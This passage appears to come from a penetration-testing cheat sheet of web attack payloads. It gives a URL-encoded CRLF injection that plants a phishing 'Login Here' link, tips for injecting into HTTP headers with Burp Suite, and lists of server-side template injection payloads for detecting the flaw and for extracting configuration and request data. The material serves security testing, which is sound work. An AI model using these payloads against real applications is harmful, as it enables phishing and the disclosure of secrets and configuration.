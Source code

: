 #### Phishing anchor
```bash
%0d%0a%0d%0a%3CA%20HREF%3D%22https%3A%2F%2Fwww.cia.gov%2F%22%3ELogin%20Here%20%3C%2FA%3E%0A%0A
```

### Tips
- Encode payloads properly; avoid breaking application parsing.
- Use Burp Suite or similar to inject into headers and params.
- Test many headers (Location, Set-Cookie, Content-Type, etc.).
- Combine CRLF with XSS/Open Redirect for impact.
- Document which inputs/headers were vulnerable and reproduction steps.


## SSTI Payloads

### Basic Template Detection
*Initial payloads to detect template injection vulnerabilities*

```bash
[=7*7]
{7*7}
*{7*7}
[[3*3]]
@(3*3)
${= 3*3}
{{ '7'*7 }}
{{= 7*7}}
{{2*2}}[[3*3]]
{{3*3}}
{{3*'3'}}
<%= 3 * 3 %>
${6*6}
${{3*3}}
@(6+5)
#{3*3}
#{ 3 * 3 }
{% debug %}
{{'a'.toUpperCase()}}
```

### Information Disclosure
*Payloads to extract configuration and application data*

```bash
{{dump(app)}}
{{app.request.server.all|join(',')}}
{{config.items()}}
{{ request }}
{$smarty.version}
{{request.class}}
{{request|attr('class')}}
{{self}}
{% debug %}
```
